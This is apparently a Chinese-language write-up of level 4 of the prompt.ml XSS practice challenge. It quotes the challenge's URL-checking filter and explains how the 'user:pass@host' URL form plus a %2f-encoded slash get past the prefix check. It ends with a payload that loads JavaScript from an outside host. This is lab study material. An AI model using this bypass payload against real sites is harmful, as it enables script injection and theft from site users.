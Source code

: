 ![](xss练习记录\5.png)



## level 4

好吧还是不会

```javascript
function escape(input) {
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}     
```

题目中利用正则匹配，规定字符串起始只能为`http://prompt.ml/`

这里的一个小trick就是，url的另外一种形式`http://username:password@host/`

利用这个方式就可以将前面的`prompt.ml`转换成用户名的格式，`/`利用`%2f`解码绕过从而加载自己网站上的js

payload:

```
http://prompt.ml%2f@blog.kingkk.com/kingkktest/1.js
```
